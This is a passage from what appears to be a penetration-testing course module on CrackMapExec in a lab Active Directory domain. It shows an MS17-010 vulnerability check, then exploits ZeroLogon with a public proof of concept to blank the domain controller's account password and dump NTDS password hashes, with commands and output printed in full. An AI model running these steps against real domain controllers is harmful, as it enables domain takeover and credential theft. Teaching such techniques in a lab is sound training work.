 The lines that start with `DEBUG` correspond to `logging.debug`. We can see in the last lines it indicates that the target is not vulnerable.

***

## MS17-010 (EternalBlue)

MS17-010, aka EternalBlue, is a security patch for Windows operating systems released by Microsft on March 14, 2017. The patch is for a critical unauthenticated remote code execution flaw in the SMB service. To learn more about this vulnerability, we can read the [Microsoft Security Bulletin MS17-010 - Critical](https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010?redirectedfrom=MSDN).

CrackMapExec includes a module named `ms17-010` that identifies if a domain controller is vulnerable to MS17-010.

### **MS17-010 Vulnerability Check**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.10.3 -M ms17-010

SMB         172.16.10.3     445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:INLANEFREIGHT.HTB) (signing:True) (SMBv1:True)
```

***

## Exploiting a Vulnerability

We have seen many vulnerabilities. Let's try to exploit one of them: ZeroLogon. Let's go to the link provided by the module [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472) and use it:

### **Exploiting ZeroLogon**

```shell-session
al1abb@htb[/htb]$ git clone https://github.com/dirkjanm/CVE-2020-1472 -q
al1abb@htb[/htb]$ cd CVE-2020-1472/
al1abb@htb[/htb]$ proxychains4 -q python3 cve-2020-1472-exploit.py dc01 172.16.10.3 
                              
Performing authentication attempts...                                                          
==============================================================================================================================================================================================
==============================================================================================================================================================
Target vulnerable, changing account password to empty string  
                                               
Result: 0                                                                                      
                                                                                               
Exploit complete!
```

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.10.3 -u 'DC01$' -p '' --ntds

SMB         172.16.10.3     445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:INLANEFREIGHT.HTB) (signing:True) (SMBv1:True)
SMB         172.16.10.3     445    DC01             [+] INLANEFREIGHT.HTB\DC01$: 
SMB         172.16.10.3     445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         172.16.10.3     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.10.3     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:f36ccfe434490cddc644901973d9a344:::
SMB         172.16.10.3     445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```